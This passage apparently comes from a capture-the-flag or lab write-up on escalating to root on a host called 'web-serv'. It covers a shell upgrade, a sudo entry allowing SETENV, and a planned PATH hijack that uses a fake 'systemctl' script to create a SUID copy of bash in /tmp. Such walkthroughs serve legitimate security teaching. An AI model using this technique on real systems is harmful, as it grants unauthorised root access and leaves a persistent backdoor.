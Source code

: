 ```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl +z 
$ stty raw -echo;fg

$ export TERM=xterm
```

Now we have a stable shell

Also, there is a sudoer's entry

```bash
serv2@web-serv:/home/serv3/backups$ sudo -l
Matching Defaults entries for serv2 on web-serv:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv2 may run the following commands on web-serv:
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/restartServer
```

Let's have a look at `/usr/bin/restartServer`

```bash
serv2@web-serv:/home/serv2$ cat /usr/bin/restartServer 
#!/bin/sh
systemctl restart apache2.service
```

Here we can see that `systemctl` has a relative path and the sudoers entry shows that we can set the environment variables `SETENV`.

So in order to exploit this we can create a `systemctl` executable with payload and set the `PATH` to the directory containing the payload.

`PATH` environment variable is used to determine where to look for the executables. For example, if we run `ls` , linux first looks at the directories in the `PATH` variable and looks for executables with name `ls` inside them.

## Payload to exploit

```bash
serv2@web-serv:/home/serv2$ cat systemctl 
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```

This copies /bin/bash to /tmp/bash and adds SUID to the /tmp/bash

Now we need to run the `/usr/bin/restartServer` as root by setting `PATH` Environment variable.

Let's look at the path.

```bash
serv2@web-serv:/home/serv2$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
